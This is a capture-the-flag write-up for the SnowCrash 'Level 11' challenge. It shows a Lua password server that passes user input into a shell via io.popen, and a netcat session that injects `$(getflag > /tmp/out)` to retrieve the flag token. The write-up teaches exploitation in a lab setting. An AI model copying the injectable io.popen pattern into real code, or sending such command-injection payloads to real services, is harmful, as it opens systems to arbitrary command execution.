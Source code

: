 # Level 11

## Analysis

We discovered a file in the home directory named `level11.lua`, containing the following Lua script:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

This script listens on port 5151 for connections, prompts for a password, hashes the input using SHA1 via a call to `io.popen` with `echo` and `sha1sum`, and compares it to a hardcoded hash value. If the hashes match, it sends a congratulatory message; otherwise, it denies access.

The vulnerability lies in the script's use of `io.popen` to execute shell commands, enabling command injection through the password input. By injecting commands into the password, we can execute arbitrary shell commands on the server.

To exploit this vulnerability, we sent a crafted string to the server using netcat, which injects a shell command to write the output of `getflag` to a file:

```sh
level10@SnowCrash:~$ nc 127.0.0.1 5151
Password: $(getflag > /tmp/out)
Erf nope..
level10@SnowCrash:~$ cat /tmp/out
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

This command injection allowed us to retrieve the flag by executing `getflag` and redirecting its output to a file, which we then read.

**Type of Exploit**: Command Injection